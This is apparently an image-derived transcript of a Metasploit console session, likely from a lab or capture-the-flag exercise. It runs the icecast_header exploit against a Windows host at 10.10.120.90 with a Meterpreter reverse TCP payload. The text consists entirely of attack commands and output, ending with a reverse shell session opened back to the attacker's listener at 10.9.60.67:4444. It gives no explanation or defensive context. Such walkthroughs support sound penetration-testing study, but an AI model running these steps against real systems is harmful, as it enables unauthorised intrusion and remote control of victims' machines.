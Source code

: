     
    [*] Using exploit/windows/http/icecast_header
    msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.120.90
    RHOSTS => 10.10.120.90
    msf5 exploit(windows/http/icecast_header) > show options
    
    Module options (exploit/windows/http/icecast_header):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.120.90     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT   8000             yes       The target port (TCP)
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic

    msf5 exploit(windows/http/icecast_header) > set LHOST 10.9.60.67
    LHOST => 10.9.60.67
    msf5 exploit(windows/http/icecast_header) > show options
    
    Module options (exploit/windows/http/icecast_header):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.120.90     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT   8000             yes       The target port (TCP)
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.9.60.67       yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(windows/http/icecast_header) > run -j
    [*] Exploit running as background job 1.
    [*] Exploit completed, but no session was created.
    msf5 exploit(windows/http/icecast_header) > 
    [*] Started reverse TCP handler on 10.9.60.67:4444 
    [*] Sending stage (176195 bytes) to 10.10.120.90
    [*] Meterpreter session 1 opened (10.9.60.67:4444 -> 10.10.120.90:49204) at 2020-11-05 14:27:03 -0500
